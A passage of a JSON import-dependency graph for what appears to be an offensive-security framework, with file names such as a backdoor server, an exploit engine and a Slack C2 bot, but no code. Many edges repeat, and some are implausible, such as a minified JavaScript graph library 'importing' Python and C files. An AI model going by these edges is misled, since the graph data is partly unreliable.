"resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/intelligence_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/llm_pool.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/llm_pool.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/llm_pool.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/lazyown_campaign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/lazyown_objective.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/lazyown_objective.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/autonomous_exploit_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/lazyown_objective.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/autonomous_exploit_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/cve_matcher.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/playbook_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/playbook_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/memory_store.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/memory_store.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/integrations/misp_export.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/llm_evaluator.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/collab_bp.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/lazyown_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/atomic_enricher.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/atomic_enricher.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/session_rag.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/session_rag.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/threat_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/lazyown_groq_agents.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/autonomous_replay.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/daemon_control.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/daemon_control.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/daemon_control.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/daemon_control.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/daemon_control.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/daemon_control.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/daemon_control.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/session_reader.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/metrics.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/reactive_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/session_reader.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "modules/session_reader.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/lazyown_campaign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/swan_agent.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/swan_agent.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/swan_agent.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp.py", "target": "skills/swan_agent.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp_opencode.py", "target": "modules/backdoor/server.c"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp_opencode.py", "target": "skills/lazyown_mcp.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_mcp_opencode.py", "target": "skills/lazyown_mcp.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_parquet_db.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_parquet_db.py", "target": "skills/lazyown_policy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_parquet_db.py", "target": "skills/lazyown_policy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_parquet_db.py", "target": "skills/lazyown_policy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_parquet_db.py", "target": "modules/atomic_enricher.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_permissions.py", "target": "cli/commands/enum.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_policy.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_policy.py", "target": "cli/commands/enum.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_policy.py", "target": "modules/logging_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_policy.py", "target": "modules/detection_oracle.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/lazyown_session.py", "target": "skills/lazyown_context.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/sessions_watcher.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/sessions_watcher.py", "target": "modules/logging_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/sessions_watcher.py", "target": "skills/lazyown_objective.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/sessions_watcher.py", "target": "skills/lazyown_facts.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/sessions_watcher.py", "target": "modules/event_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/swan_agent.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/swan_agent.py", "target": "modules/moe_router.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/swan_agent.py", "target": "modules/rl_trainer.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/swan_agent.py", "target": "modules/logging_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/swan_agent.py", "target": "modules/detection_oracle.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/swan_agent.py", "target": "skills/lazyown_policy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/swan_agent.py", "target": "skills/lazyown_groq_agents.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/swan_agent.py", "target": "modules/moe_router.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/swan_agent.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_facts.py", "target": "skills/lazyown_facts.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_harness_e2e.py", "target": "skills/lazyown_permissions.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_harness_e2e.py", "target": "skills/lazyown_context.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_harness_e2e.py", "target": "skills/lazyown_session.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_harness_e2e.py", "target": "skills/lazyown_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_harness_e2e.py", "target": "skills/lazyown_claudemd.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_harness_e2e.py", "target": "skills/lazyown_session.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_harness_e2e.py", "target": "skills/lazyown_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_harness_e2e.py", "target": "skills/lazyown_permissions.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_harness_e2e.py", "target": "skills/lazyown_claudemd.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_harness_e2e.py", "target": "skills/lazyown_context.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_harness_e2e.py", "target": "skills/lazyown_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_harness_e2e.py", "target": "skills/lazyown_permissions.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_harness_e2e.py", "target": "skills/lazyown_session.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_hive_mind.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_hive_mind.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_hive_mind.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_hive_mind.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_hive_mind.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_hive_mind.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_hive_mind.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_hive_mind.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_hive_mind.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_hive_mind.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_hive_mind.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_hive_mind.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_hive_mind.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_hive_mind.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_hive_mind.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_hive_mind.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_hive_mind.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_hive_mind.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_hive_mind.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_hive_mind.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_hive_mind.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_hive_mind.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_hive_mind.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_hive_mind.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_hive_mind.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_hive_mind.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_hive_mind.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_hive_mind.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_hive_mind.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_hive_mind.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_hive_mind.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_hive_mind.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_hive_mind.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_hive_mind.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_hive_mind.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_hive_mind.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_mcp_smoke.py", "target": "skills/lazyown_mcp.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_objectives.py", "target": "skills/lazyown_objective.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/tests/test_parquet_db.py", "target": "skills/lazyown_parquet_db.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/toposwarm_autonomous.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/toposwarm_autonomous.py", "target": "modules/logging_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/toposwarm_autonomous.py", "target": "modules/toposwarm_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/toposwarm_autonomous.py", "target": "modules/reactive_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/unified_orchestrator.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/unified_orchestrator.py", "target": "skills/hive_mind.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/unified_orchestrator.py", "target": "skills/swan_agent.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/unified_orchestrator.py", "target": "modules/engage_summary.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/unified_orchestrator.py", "target": "modules/engage_summary.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/unified_orchestrator.py", "target": "modules/engage_summary.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/update_knowledge.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/update_knowledge.py", "target": "modules/logging_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "skills/update_knowledge.py", "target": "skills/lazyown_parquet_db.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "slack_c2_bot.py", "target": "lazyown.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "slack_c2_bot.py", "target": "modules/llm_adapter.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "slack_c2_bot.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "slack_c2_bot.py", "target": "core/parsers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "modules/exp.c"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "modules/exp.c"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "modules/exp.c"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "modules/exp.c"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "modules/exp.c"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "modules/exp.c"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lazyown-docker/init.sh"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lazyown-docker/init.sh"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lazyown-docker/init.sh"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lazyown-docker/init.sh"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lazyown-docker/init.sh"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lazyown-docker/init.sh"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lazyown-docker/init.sh"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": 